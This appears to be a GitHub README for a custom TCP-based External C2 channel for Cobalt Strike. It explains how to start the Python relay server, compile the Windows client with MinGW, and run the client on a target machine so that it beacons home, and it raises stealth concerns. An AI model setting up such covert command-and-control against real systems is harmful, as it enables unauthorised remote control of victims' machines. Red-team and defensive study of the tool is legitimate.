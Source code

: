 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename] [Sleep]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. (Unless there is a read error on the socket) This may pose stealth issues.
- Once a connection is established, it keeps the TCP connection open until the client is terminated. This can result in extreamly long lasting TCP sessions.
- Mudge defined max payload size as 512 \* 1024 and max buffer size as 1024 \* 1024.

## TODOS/IMPROVEMENTS

- Close TCP connection when sleeping.
- Handle multiple clients on one server.
